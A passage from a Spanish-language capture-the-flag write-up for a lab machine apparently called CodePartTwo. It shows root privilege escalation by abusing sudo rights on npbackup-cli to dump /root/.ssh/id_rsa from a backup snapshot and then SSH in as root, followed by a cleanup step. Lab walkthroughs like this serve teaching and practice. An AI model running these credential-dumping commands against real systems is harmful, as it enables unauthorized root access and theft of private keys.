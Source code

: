 Ahora vuelvo a listar los snapshots realizados, selecciono el que he hecho y me `dumpeo la id_rsa de root` (chmod 600) para conectarme por `SSH`.

```bash
sudo /usr/local/bin/npbackup-cli -c /tmp/mybackup.conf -s
sudo /usr/local/bin/npbackup-cli -c /tmp/mybackup.conf --snapshot-id 11586cfb --dump /root/.ssh/id_rsa
ssh -i /tmp/my_rsa root@10.10.11.82
```

![Dumpeo de /root/.ssh/id_rsa](images/codeparttwo_dumpeo_id_rsa.PNG)
![SSH to root](images/codeparttwo_ssh_to_root.PNG)

### Limpieza del entorno
Una vez terminada la máquina, toca limpiar todos los archivos creados para mantener el entorno limpio.

![Limpieza](images/codeparttwo_limpieza_entorno.PNG)
